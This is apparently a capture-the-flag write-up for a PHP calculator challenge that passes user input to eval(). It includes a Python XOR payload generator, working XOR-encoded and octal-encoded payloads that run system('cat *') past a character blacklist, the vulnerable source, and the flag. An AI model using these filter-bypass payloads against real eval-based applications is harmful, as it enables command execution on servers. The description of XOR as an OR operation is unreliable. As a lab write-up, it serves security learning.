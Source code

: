 # Most Secure Calculation 2

A version 2 calculation web page

## Step 1, enumeration:
Inspec source-code, we get the html comment:

	Hi Selina, 
	I learned about regex today. I have upgraded the previous calculator. Now its the most secure calculator ever.
	The calculator accepts only numbers and symbols. 
	I have hidden some interesting things in flag.txt and I know you can create an interesting equation to read that file.

Not Allowed Characters: all characters, $, <, >, =

## Step 2, exploit:
Ok, inject some symbols we get some error and know eval() is using: 
```html
Result : Parse error: syntax error, unexpected ';' in /var/www/html/index.php(12) : eval()'d code on line 1
```

With blacklist characters it sound just like XOR. Ok, i don't finished this challenge, i stick with XOR but it doesn't work and then i relize we can XOR: string ^ string = string, not just 2 single character together. Ok, ye, ye leave me alone!!

About XOR algorithm: XOR is OR operation, (1 ^ 1 = 0 ; 0 ^ 0 = 0), (1 ^ 0 = 1), example:

	'a' ^ 'b' = 3
	01100001
	^
	01100010
	--------
	00000011

When we XOR two string, characters will sequence XOR each other(abcd^abcd), but when one longer than other: ab ^ abababa

`tool`: generate_xor.py
```python
# bad_girls = $, any characters(\n), <, >, =
valid = r"0123456789!\"#%&'()*+,-./:;?@[]^_{}~`\\|"

def xor(a, b):
	return chr(ord(a) ^ ord(b))

payload = "system" # cat

flag = 0
one = ''
two = ''
for p in payload:
	for a in valid:
		for b in valid:
			if xor(a, b) == p:
				one += a; two += b
				flag = 1
				break
		if flag:
			flag = 0
			break

print(f"('{one}'^'{two}')")

```
**payload**: 
```php
system(cat *) : ('393480'^'@@@@]]')(('8!4'^'[@@').' *')
```

**Octal encoding**:
More easy way, with *double quote*, we can using hex, octal encoding to bypass the filter, but hexdedimal prefix(ex: \x08), 'x' character is blocked so we can't used this.

Ok, let's use octal(number from 0 to 7, which is allowed) encoding.

**Reference**:
String literal in python: https://stackoverflow.com/questions/50580002/what-does-a-backslash-mean-in-a-string-literal
	
	Using back slash to specify denote special type of string literals.

About hexdecimal, notice *hex identifier*: https://learn.sparkfun.com/tutorials/hexadecimal/

	Identifier: 0x47DE, #FF7734, %20,\x0A, &#x	
	
About octal prefix:

	077, 0o77, \077

**payload**:
```php
system('cat *') : ("\163\171\163\164\145\155")("\143\141\164 *")
`cat *` : `\143\141\164 *`
```

`source-code`: index.php
```php
<?php
if (isset($_POST["equation"]) && !is_array($_POST["equation"])) {
    if (empty($_POST["equation"])) {
        echo "Please enter some eqation.";
    } else {
        if (preg_match_all("^[a-zA-Z\$\>\<\=]^", $_POST["equation"])) {
            echo "Oow ! Bad equation.";
        } else if (strlen($_POST["equation"]) >= 80) {
            echo "Oow ! You have entered an equation that is too big for me.";
        } else {
            echo "<h1> Result : <br>";
            eval("echo " . $_POST["equation"] . ";");
            echo "</h1>";
        }
    }
}

```
**flag**: KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}